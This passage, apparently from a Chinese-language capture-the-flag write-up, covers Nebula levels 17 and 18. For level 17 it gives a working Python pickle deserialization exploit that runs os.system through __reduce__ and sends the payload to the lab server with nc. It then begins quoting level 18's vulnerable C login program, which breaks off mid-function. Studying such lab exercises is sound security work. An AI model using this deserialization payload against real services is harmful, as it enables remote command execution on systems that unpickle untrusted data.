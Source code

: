 Python写的一个socket服务器，服务器一运行就对接收到的数据用pickle进行反序列化。序列化/反序列化就意味对象可以被存储，因此也有可能被运行。网上可以搜索一下Pickle Exploit相关信息，可谓一抓一大把。

这题思路就是从pickle下手，查询了Python Manual后发现，dumps()/loads()函数可以序列化转换对象和byte。

现在有了存储和恢复对象的方法，下一步就是如何让对象内的方法运行。php有魔数方法，python应该也有。继续看手册中pickle这章，发现在恢复对象的时候`__init__()`和`__new__()`是不会被调用的，但是有`__reduce__()`，不过需要返回tuple或者string。

于是构造代码：

```python
import pickle
import os

class Exp17(object):
	def __reduce__(self):
		return (os.system, ('/bin/getflag > /tmp/flag17.txt',))

obj = pickle.dumps(Exp17())
# pickle.loads(obj)
print obj
```

上面代码中注释掉的那句是我用来测试的代码，测试正常后就可以开始漏洞利用了：

```bash
python exp17.py | nc 127.0.0.1 10007
```

运行代码，让nc建立连接并回车，之后Ctrl+C停止运行，去/tmp/flag17.txt看成果吧。

# Nebula level18 #
> Analyse the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it.
> 
> 分析C程序漏洞，这道题有简单、中等、困难且不可靠3种方式去解决。

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <getopt.h>

struct {
  FILE *debugfile;
  int verbose;
  int loggedin;
} globals;

#define dprintf(...) if(globals.debugfile) \
  fprintf(globals.debugfile, __VA_ARGS__)
#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
  fprintf(globals.debugfile, __VA_ARGS__)

#define PWFILE "/home/flag18/password"

void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
    char file[64];

```